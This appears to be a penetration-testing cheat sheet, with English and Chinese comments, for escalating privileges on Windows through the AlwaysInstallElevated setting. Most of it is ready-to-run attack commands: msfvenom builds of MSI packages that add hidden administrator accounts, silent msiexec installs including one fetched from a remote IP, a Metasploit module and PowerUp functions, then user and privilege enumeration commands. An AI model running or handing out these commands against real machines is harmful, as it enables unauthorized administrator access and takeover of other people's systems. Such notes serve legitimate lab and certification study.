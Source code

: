 ### MSI exploit

```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted

#使用msfvenom生成msi包
msfvenom -p windows/exec CMD="cmd.exe /c net user john Password123! /add && net localgroup Administrators john /add" -f msi -o UserAdd.msi

#/qn 安装过程中没有用户界面
#/i 正常安装#/quiet 静默安装
msiexec.exe /quiet /qn /i UserAdd.msi
#-msexec.exe 远程加载
msiexec /q /i http://192.168.119.196/UserAdd.msi

# msf exploit
exploit/windows/local/always_install_elevated
```

### Powerup

```powershell
Write-UserAddMSI

#检查是否设置了AlwaysInstallElevated 注册表项
Get-RegistryAlwaysInstallElevated

#写MSI安装程序，提示要添加的用户
Write-UserAddMSI
```

## Users&Groups

+ identify the user context
+ current user, is admin?
+ user list, identify potential high-privilege user accout
+ check token enble
> SeImpersonatePrivilege, SeAssignPrimaryPrivilege, SeTcbPrivilege, SeBackupPrivilege, SeRestorePrivilege, eCreateTokenPrivilege, SeLoadDriverPrivilege, SeTakeOwnershipPrivilege, SeDebugPrivilege

### Enum

```bat
# 查看user
whoami
whoami /all
whoami /priv
echo %username%

net user # 当前用户
net users # 所有用户
net user user1

# localgroups
net localgroup
net group /domain
net group /domain <groupname>

# powershell
Get-WmiObject -Class Win32_UserAccount
Get-LocalUser | ft Name,Enabled,LastLogon
```